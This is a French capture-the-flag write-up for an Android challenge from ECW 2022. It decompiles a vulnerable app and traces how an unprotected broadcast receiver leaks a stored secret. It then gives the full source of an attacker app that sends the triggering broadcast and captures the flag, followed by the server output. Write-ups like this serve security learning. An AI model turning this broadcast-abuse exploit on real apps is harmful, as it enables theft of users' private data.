

# ECW 2022 Write Up

## ANDROID - Hallowed - 51 solves - 438 pts

Dans ce challenge des instructions nous sous fournies afin de déployer une application Android sur une image docker.
Le but est de déployer une application (qui sera automatiquement exécuté sur l'android virtualisé) qui exploitera la vulnérabilité de l'application préalablement installé sur l'appareil.


Les fichiers fournis dans le challenge sont disponibles dans le dossier `enonce`.

### Analyse de l'application

La première étape consiste à analyser l'application. Un excellent outil que j'aime utiliser est [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) disponible dans sa version live [ici](https://mobsf.live/).
Pour ma part je vais lancer l'application en local grâce à Docker:

```Bash
docker run -p 8000:8000 opensecurity/mobile-security-framework-mobsf 
```

Une fois l'appli lancé on se connecte sur l'interface web http://127.0.0.1:8000 et on upload l'apk :


On prend le temps d'installer Android Studio durant l'analyse. Une fois l'analyse terminé on peut parcourir le report afin de détecter les vulnérabilités évidente.  
Le rapport de l'analyse est disponnible [ici](report.pdf).  
L'application ne présente visiblement pas de vulnérabilité grave, une chose retient cependant notre attention :



Il semblerait que cette application utilise la fonctionnalité de [broadcas](https://developer.android.com/guide/components/broadcasts) android.
Pour faire simple les broadcast sont en quelques sortes les messages envoyés par les applications lors d'évènements notoires. Par exemple l'horloge android envoie un broadcast lorsqu'une alarme se déclenche. N'importe qu'elle application peut envoyer des broadcast et n'importe quelle application peut écouter les broadcast envoyé sur le téléphone !

### Extraction des sources

Pour en savoir plus nous allons devoir lire le code source de l'application. Il est possible d'utiliser le paquet apktool mais, il n'est possible d'extraire les sources que en smali et personnellement je préfère lire les sources directement en Java. Heureusement MobSF nous permet de télécharger les sources Java une fois l'analyse terminé.

Les sources extraites sont disponnibles dans le dossier `sources`.

```Bash
sources
└── com
    ├── ecw2022
    │  └── findmysecret
    │      ├── BuildConfig.java
    │      ├── MainActivity.java
    │      ├── R.java
    │      └── zjgEuTjz.java
    └── google

```

MainActivity.java
```Java
public class MainActivity extends Activity {
    private Dispatcher dispatcher;

    public class Dispatcher extends BroadcastReceiver {
        private boolean llBvUcZW = false;
        private zjgEuTjz KyQHMVaD = new zjgEuTjz(4, 3, 2, 1, 0);
        private zjgEuTjz MpdIwtDL = new zjgEuTjz();
        private zjgEuTjz JVPwXmbF = new zjgEuTjz();

        public Dispatcher() {
        }

        private void sendFlag(Context context, int i) {
            if (!this.llBvUcZW && this.KyQHMVaD.NZBagfGX() && this.MpdIwtDL.NZBagfGX() && this.JVPwXmbF.NZBagfGX() && i == 31) {
                String string = context.getSharedPreferences("prefs", 0).getString("flag", "nope");
                Intent intent = new Intent();
                intent.setAction("com.ecw2022.findmysecret.HERE");
                intent.putExtra("flag", string);
                context.sendBroadcast(intent);
            }
        }

        @Override // android.content.BroadcastReceiver
        public void onReceive(Context context, Intent intent) {
            boolean z = false;
            int intExtra = intent.getIntExtra("r", 0);
            if (intExtra < 512) {
                ArrayList<String> stringArrayListExtra = intent.getStringArrayListExtra("f");
                if (stringArrayListExtra.size() < 1024) {
                    if (stringArrayListExtra.size() < 2) {
                        boolean z2 = this.llBvUcZW;
                        if (stringArrayListExtra.size() != 0) {
                            z = true;
                        }
                        this.llBvUcZW = z2 | z;
                        sendFlag(context, intExtra);
                        return;
                    }
                    String str = stringArrayListExtra.get(0);
                    String str2 = stringArrayListExtra.get(1);
                    Optional<Integer> empty = Optional.empty();
                    if (str.equals("A")) {
                        empty = this.KyQHMVaD.zjgEuTjz();
                    } else if (str.equals("B")) {
                        empty = this.MpdIwtDL.zjgEuTjz();
                    } else if (str.equals("C")) {
                        empty = this.JVPwXmbF.zjgEuTjz();
                    }
                    if (!empty.isPresent()) {
                        this.llBvUcZW |= true;
                        return;
                    }
                    if (str2.equals("A")) {
                        this.KyQHMVaD.LWnTPoVy(empty.get());
                    } else if (str2.equals("B")) {
                        this.MpdIwtDL.LWnTPoVy(empty.get());
                    } else if (str2.equals("C")) {
                        this.JVPwXmbF.LWnTPoVy(empty.get());
                    }
                    ArrayList arrayList = new ArrayList(stringArrayListExtra.subList(2, stringArrayListExtra.size()));
                    Intent intent2 = new Intent();
                    intent2.setAction("com.ecw2022.findmysecret.GIMME_FLAG");
                    intent2.putExtra("f", arrayList);
                    intent2.putExtra("r", intExtra + 1);
                    context.sendBroadcast(intent2);
                }
            }
        }
    }

    @Override // android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.activity_main);
        this.dispatcher = new Dispatcher();
        getIntent();
        SharedPreferences sharedPreferences = getApplicationContext().getSharedPreferences("prefs", 0);
        registerReceiver(this.dispatcher, new IntentFilter("com.ecw2022.findmysecret.GIMME_FLAG"));
        if (!sharedPreferences.contains("flag")) {
            try {
                SharedPreferences.Editor edit = sharedPreferences.edit();
                edit.putString("flag", getIntent().getStringExtra("flag"));
                edit.apply();
                Log.i("fms", "correctly set flag");
            } catch (Exception e) {
                Log.e("fms", Log.getStackTraceString(e));
            }
        }
    }
}
```

zjgEuTjz.java
```Java
public class zjgEuTjz {

    private boolean rdfIDxTI = false;
    private Stack<Integer> LUdIprHu = new Stack<>();

    public zjgEuTjz() {
    }

    public zjgEuTjz(Integer... numArr) {
        for (Integer num : numArr) {
            this.LUdIprHu.push(num);
        }
    }

    public boolean NZBagfGX() {
        return !this.rdfIDxTI;
    }

    public Optional<Integer> zjgEuTjz() {
        this.rdfIDxTI |= this.LUdIprHu.size() == 0;
        if (this.LUdIprHu.size() == 0) {
            return Optional.empty();
        }
        return Optional.of(this.LUdIprHu.pop());
    }

    public void LWnTPoVy(Integer num) {
        if (!this.LUdIprHu.empty()) {
            int intValue = this.LUdIprHu.firstElement().intValue();
            this.rdfIDxTI = (intValue <= num.intValue()) | this.rdfIDxTI;
        }
        this.LUdIprHu.push(num);
    }

}
```

Bon il semblerait que les organisateurs se soient bien amusés avec leur code.
Deux choses retiennent cependant notre attention :

- L'application shell-game écoute sur le broadcast `com.ecw2022.findmysecret.GIMME_FLAG`.
```Java
protected void onCreate(Bundle bundle) {
    registerReceiver(this.dispatcher, new IntentFilter("com.ecw2022.findmysecret.GIMME_FLAG"));
}
```

- Et elle est capable d'envoyer un broadcast `com.ecw2022.findmysecret.HERE` qui semble contenir le flag !
```Java
private void sendFlag(Context context, int i) {
    // [...]
    intent.setAction("com.ecw2022.findmysecret.HERE");
    context.sendBroadcast(intent);
    // [...]
}
```

Il n'y a rien à tirer de ce genre de code. Pour avoir le moindre espoir de s'y retrouver la dedans je me suis dis que le plus simple serait encore de reverse le code afin de le rendre plus lisible.

Voila ce que ça donne :

Main.java est un reflet de MainActivity.java sans aucune référence android et avec un flag mocké :
```Java
import java.util.ArrayList;
import java.util.Arrays;
import java.util.Optional;

public class Main{
    public static void main(String[] args) {
        Main main = new Main();
        ArrayList<String> list = new ArrayList<String>();
        int i = 31;
        main.onReceive(list, i);
    }

    private MyClass liste1 = new MyClass();
    private MyClass liste2 = new MyClass(4, 3, 2, 1, 0);
    private MyClass liste3 = new MyClass();
    private boolean bool = false;

    private void sendFlag(int i) {
        System.out.println("########### sendFlag ###########");
        System.out.println("this.bool : " + this.bool);
        System.out.println("this.liste1.isFalse() : " + this.liste1.isFalse());
        System.out.println("this.liste2.isFalse() : " + this.liste2.isFalse());
        System.out.println("this.liste3.isFalse() : " + this.liste3.isFalse());
        System.out.println("i : " + i);

        if (!this.bool && this.liste2.isFalse() && this.liste3.isFalse() && this.liste1.isFalse() && i == 31) {
            System.out.println("Flag trouvé");
        }
    }

    public void onReceive(ArrayList<String>  f, int r) {
        System.out.println("########### onReceive ###########");
        System.out.println("ArrayList : " + f);
        System.out.println("Int : " + r);
        boolean z = false;
        int intExtra = r;
        if (intExtra < 512) {
            ArrayList<String> stringArrayListExtra = f;
            if (stringArrayListExtra.size() < 1024) {
                if (stringArrayListExtra.size() < 2) {
                    boolean z2 = this.bool;
                    if (stringArrayListExtra.size() != 0) {
                        z = true;
                    }
                    this.bool = z2 | z;
                    sendFlag(intExtra);
                    return;
                }
                String str = stringArrayListExtra.get(0);
                String str2 = stringArrayListExtra.get(1);
                Optional<Integer> empty = Optional.empty();
                if (str.equals("A")) {
                    empty = this.liste2.MyClass();
                } else if (str.equals("B")) {
                    empty = this.liste3.MyClass();
                } else if (str.equals("C")) {
                    empty = this.liste1.MyClass();
                }
                if (!empty.isPresent()) {
                    this.bool |= true;
                    return;
                }
                if (str2.equals("A")) {
                    this.liste2.add_list_and_update_bool(empty.get());
                } else if (str2.equals("B")) {
                    this.liste3.add_list_and_update_bool(empty.get());
                } else if (str2.equals("C")) {
                    this.liste1.add_list_and_update_bool(empty.get());
                }
                ArrayList arrayList = new ArrayList(stringArrayListExtra.subList(2, stringArrayListExtra.size()));
                onReceive(arrayList, intExtra + 1);
            }
        }
    }
}
```

De même la classe zjgEuTjz.java devient MyClass.java :
```Java
import java.util.Optional;
import java.util.Stack;

public class MyClass {
    private Stack<Integer> c_liste = new Stack<>();
    private boolean c_bool = false;

    public MyClass() {
    }

    public MyClass(Integer... numArr) {
        for (Integer push : numArr) {
            this.c_liste.push(push);
        }
    }

    public boolean isFalse() {
        return !this.c_bool;
    }

    public Optional<Integer> MyClass() {
        this.c_bool |= this.c_liste.size() == 0;
        if (this.c_liste.size() == 0) {
            return Optional.empty();
        }
        return Optional.of(this.c_liste.pop());
    }

    public void add_list_and_update_bool(Integer num) {
        if (!this.c_liste.empty()) {
            int intValue = ((Integer) this.c_liste.firstElement()).intValue();
            this.c_bool = (intValue <= num.intValue()) | this.c_bool;
        }
        this.c_liste.push(num);
    }
}
```

Grâce à ces deux classes nettement plus lisible nous allons pourvoir faire quelques tests en local !

### Analyse de code

Voila ce que l'on observe dans les grandes lignes:

- Trois objets de MyClass sont crées au lancement de l'activité et une variable boolean est initialisé à false:
```Java
private MyClass liste1 = new MyClass();
private MyClass liste2 = new MyClass(4, 3, 2, 1, 0);
private MyClass liste3 = new MyClass();
private boolean bool = false;
```

- Si la liste de string fournie possède moins de 2 éléments la fonction sendFlag() est appelé avec comme paramètre l'entier fourni.
- Si la liste de string fournie est vide `this.bool` reste à false.
```Java
public void onReceive(ArrayList<String>  f, int r) {
    // [...]
    boolean z = false;
    int intExtra = r;
    // [...]
    ArrayList<String> stringArrayListExtra = f;
    // [...]
    if (stringArrayListExtra.size() < 2) {
        boolean z2 = this.bool;
        if (stringArrayListExtra.size() != 0) {
            z = true;
        }
        this.bool = z2 | z;
        sendFlag(intExtra);
        return;
    }
    // [Pleins de trucs compliqués]
```

- Si l'entier fourni est égal à 31 et que `this.bool` est à false et si toutes les booleans des listes sont false alors le flag est envoyé.
```Java
if (!this.bool && this.liste2.isFalse() && this.liste3.isFalse() && this.liste1.isFalse() && i == 31) {
    System.out.println("Flag trouvé");
}
```

- Lors de l'initialisation d'une liste sa variable boolean est par défaut à false.
```Java
public class MyClass {
    private Stack<Integer> c_liste = new Stack<>();
    private boolean c_bool = false;
    // [...]
}
```

Voila le bilan de notre analyse :

Si on envoie une liste de string vide et un int qui est égal à 31 alors on devrait recevoir le flag sans se soucier de toute la partie de code compliqué !
Essayons de lancer notre code reverse avec ces paramètres :

```Java
public static void main(String[] args) {
    Main main = new Main();
    ArrayList<String> list = new ArrayList<String>();
    int i = 31;
    main.onReceive(list, i);
}
```

```Bash
javac Main.java MyClass.java
java Main                   

########### onReceive ###########
ArrayList : []
Int : 31
########### sendFlag ###########
this.bool : false
this.liste1.isFalse() : true
this.liste2.isFalse() : true
this.liste3.isFalse() : true
i : 31
Flag trouvé
```

D'après l'analyse notre bilan voila le WorkFlow qui devra être accompli par notre application :

Au lancement de l'application :
- Déclarer un receveur de broadcast `com.ecw2022.findmysecret.HERE`
- Initialiser une liste de string vide
- Initialiser un entier à 31
- Initialiser un nouvel Intent
- Définir l'action de l'intent comme un broadcast à `com.ecw2022.findmysecret.GIMME_FLAG`
- Ajouter la string et l'entier aux extra de l'intent
- Envoyer le broadcast

À la reception du broadcast :
- Récupérer les informations renvoyés par le broadcast `com.ecw2022.findmysecret.HERE`.
- Afficher la valeur de l'extra "flag"

### Développement de notre Application

Je vous invite à initialiser un projet Android "Empty Activity" en Java avec [AndroidStudio](https://developer.android.com/studio?hl=fr).
Comme nous l'informe la note fourni par les organisateurs :
* its package name must be `com.ecw2022.app`
* its main activity must be `MainActivity`

Les sources de l'application que j'ai développé sont disponibles dans le dossier `app`.

MainActivity.java
```Java
public class MainActivity extends AppCompatActivity {

    private Dispatcher dispatcher;

    public class Dispatcher extends BroadcastReceiver {

        @Override
        public void onReceive(Context context, Intent intent) {
            String flag = intent.getStringExtra("flag");
            Log.d("{ECW2022}","{ECW2022} : " + flag);
        }
    }

    @Override
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.dispatcher = new Dispatcher();
        getIntent();
        registerReceiver(this.dispatcher, new IntentFilter("com.ecw2022.findmysecret.HERE"));
        Intent intent2 = new Intent();

        ArrayList<String> list = new ArrayList<String>();
        int i = 31;
        
        intent2.setAction("com.ecw2022.findmysecret.GIMME_FLAG");
        intent2.putExtra("f", list);
        intent2.putExtra("r", i);
        sendBroadcast(intent2);
    }
}
```

On s'assure que la balise package soit bien renseigné dans le manifest et on déclare les permissions que nous devons utilser :

```xml
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    package="com.ecw2022.app">
```

Une fois l'application buildé on extrait le fichier app-debug.apk afin de l'envoyer à l'image docker.

```Bash
curl -v -F 'apk=@app-debug.apk' http://213.32.7.237:22961/apk 

*   Trying 213.32.7.237:22961...
* Connected to 213.32.7.237 (213.32.7.237) port 22961 (#0)
> POST /apk HTTP/1.1
> Host: 213.32.7.237:22961
> User-Agent: curl/7.85.0
> Accept: */*
> Content-Length: 6885462
> Content-Type: multipart/form-data; boundary=------------------------817b7334e16bb165
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: application/json; charset=utf-8
< Content-Length: 336
< Date: Thu, 03 Nov 2022 10:38:14 GMT
< Server: Python/3.10 aiohttp/3.8.1
< 
* Connection #0 to host 213.32.7.237 left intact
[
"virtual device up",
"virtual device booted",
"installing vulnerable app",
"installed vulnerable app",
"vulnerable app installed",
"installing candidate app",
"candidate app installed",
"candidate app started",
"11-03 10:33:14.481  2843  2843 D {ECW2022}: {ECW2022} : ECW{f6576a995d0c6302c925f1e11d51469f}",
"virtual device destroyed"
]
```

Le temps de patienter on part se faire un petit kawa et au retour le flag est dans la poche !